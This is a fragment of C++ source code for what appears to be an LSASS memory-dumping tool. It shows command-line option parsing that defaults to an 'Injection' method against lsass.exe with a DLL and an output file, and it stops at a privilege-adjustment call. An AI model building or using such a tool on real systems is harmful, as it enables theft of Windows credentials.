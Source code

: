 ```c++
        L"  -o <DLL>                    The file the process memory is dumped to.\n"
    );
}

int wmain(int argc, wchar_t* argv[])
{
    HANDLE hToken = NULL;
    LPCWSTR expType = L"Injection";
    LPCWSTR lpProcessName = L"lsass.exe";
    LPCWSTR lpDllFileName = NULL;
    LPCWSTR lpOutputFile = NULL;

    while ((argc > 1) && (argv[1][0] == '-'))
    {
        switch (argv[1][1])
        {
        case 'h':
            PrintUsage();
            return 0;
        case 'e':
            ++argv;
            --argc;
            if (argc > 1 && argv[1][0] != '-')
            {
                expType = (LPCWSTR)argv[1];
            }
            break;
        case 'p':
            ++argv;
            --argc;
            if (argc > 1 && argv[1][0] != '-')
            {
                lpProcessName = (LPCWSTR)argv[1];
            }
            break;
        case 'm':
            ++argv;
            --argc;
            if (argc > 1 && argv[1][0] != '-')
            {
                lpDllFileName = (LPCWSTR)argv[1];
            }
            break;
        case 'o':
            ++argv;
            --argc;
            if (argc > 1 && argv[1][0] != '-')
            {
                lpOutputFile = (LPCWSTR)argv[1];
            }
            break;
        default:
            wprintf(L"[-] Invalid Argument: %s.\n", argv[1]);
            PrintUsage();
            return 0;
        }

        ++argv;
        --argc;
    }

    if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken))
    {
```